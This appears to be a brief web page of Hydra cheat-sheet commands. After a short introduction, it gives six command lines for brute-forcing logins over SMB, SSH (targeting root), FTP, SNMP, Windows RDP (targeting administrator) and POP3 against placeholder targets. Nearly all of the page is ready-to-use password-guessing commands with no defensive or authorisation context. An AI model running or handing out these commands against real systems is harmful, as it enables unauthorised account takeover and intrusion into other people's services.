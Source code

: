 ```yaml
---
layout: article
title: hydra commands
mathjax: true
---
```


Some bruteforce terminal commands to use with Hydra. Hydra is a built-in cracking tool in Kali Linux which can work offline and online platforms. It can work in complaince with plenty of platforms. SSH, RDP, HTTP are just few of those.

### hydra: bruteforce smb login 
hydra -L users.txt -P passwords.txt -e nsr smb://targetIp

### hydra: bruteforce ssh login (-V, -v verbose)
hydra -l root -P passwordlist ssh://ipv4Address -V

### hydra: bruteforce ftp login
hydra -t 5 -V -f -C /tmp/wordlist ftp://targetIp

### hydra: bruteforce SNMP
hydra -P password-file.txt -v ipv4Address snmp

### hydra: bruteforce Windows Remote Desktop
hydra -t 1 -V -f -l administrator -P /path/to/wordlist.txt rdp://ipv4Address

### hydra: bruteforce POP3
hydra -l userName -P /path/to/wordlist -f ipv4Address pop3 -V
